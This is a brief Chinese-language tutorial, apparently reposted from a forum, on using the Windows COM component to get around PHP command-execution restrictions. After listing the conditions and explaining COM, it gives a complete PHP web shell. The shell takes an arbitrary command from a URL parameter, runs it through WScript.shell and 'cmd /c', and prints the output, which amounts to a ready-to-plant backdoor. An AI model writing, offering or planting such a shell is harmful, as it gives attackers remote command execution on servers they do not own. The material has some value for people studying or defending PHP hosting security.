


# 利用系统组件 window com 绕过

> 原文：[https://www.zhihuifly.com/t/topic/3468](https://www.zhihuifly.com/t/topic/3468)

## 利用系统组件 window com 绕过

**1\. 利用条件**

*   Windows
*   php5.x（高版本扩展要自己添加）
*   支持COM组件

**2\. 基本原理**

COM组件它最早的设计意图是，跨语言实现程序组件的复用
COM组件由以Win 32动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循COM规范编写出来的组件将能够满足对组件架构的所有要求。COM组件可以给应用程序、操作系统以及其他组件提供服务；自定义的COM组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM组件可以动态的插入或卸出应用。



```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象 Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?> 
```

